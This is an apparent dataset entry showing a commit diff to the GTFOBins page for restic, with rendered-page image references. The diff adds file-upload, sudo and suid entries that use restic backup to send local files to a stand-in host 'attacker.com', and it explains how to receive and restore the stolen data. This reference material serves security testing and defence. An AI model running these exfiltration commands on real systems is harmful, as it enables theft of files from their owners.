

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/restic.md, in a window 1280 px wide. Shown: the whole page at 84% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Fix and improve restic

````diff
--- a/_gtfobins/restic.md
+++ b/_gtfobins/restic.md
@@ -1,18 +1,41 @@
 ---
+description: |
+  The attacker must setup a server to receive the backups, in the following example [rest-server](https://github.com/restic/rest-server/) is used but there are other options. To start a new instance and create a new repository:
+
+  ```console
+  RPORT=12345
+  NAME=backup_name
+  ./rest-server --listen ":$RPORT"
+  restic init -r "rest:http://localhost:$RPORT/$NAME"
+  ```
+
+  To extract the data from the restic repository in the current directory on the attacker side:
+
+  ```console
+  restic restore -r "/tmp/restic/$NAME" latest --target .
+  ```
+
+  Upload data to the attacker server with the following commands.
 functions:
+  file-upload:
+    - code: |
+        RHOST=attacker.com
+        RPORT=12345
+        LFILE=file_or_dir_to_get
+        NAME=backup_name
+        restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
   sudo:
-    - description: Restic can be used to backup files. Run the commands in the sequence given below.
-      code: |
-        <!-- Attacker Machine -->
-        rest-server --no-auth --listen http://ATTACKER_IP:PORT
-        <!-- Victim Machine -->
-        TARGET=rest_repository
-        BACKUP=file_or_directory_to_backup
-        sudo restic init -r rest:http://ATTACKER_IP:PORT/$TARGET
-        sudo restic backup -r rest:http://ATTACKER_IP:PORT/$TARGET $BACKUP
-        <!-- Attacker Machine -->
-        TARGET=rest_repository
-        DESTINATION=backup_to_restore
-        mkdir /tmp/restic/$DESTINATION
-        restic restore -r /tmp/restic/$TARGET latest --target /tmp/restic/$DESTINATION
+    - code: |
+        RHOST=attacker.com
+        RPORT=12345
+        LFILE=file_or_dir_to_get
+        NAME=backup_name
+        sudo restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
+  suid:
+    - code: |
+        RHOST=attacker.com
+        RPORT=12345
+        LFILE=file_or_dir_to_get
+        NAME=backup_name
+        ./restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
 ---
````
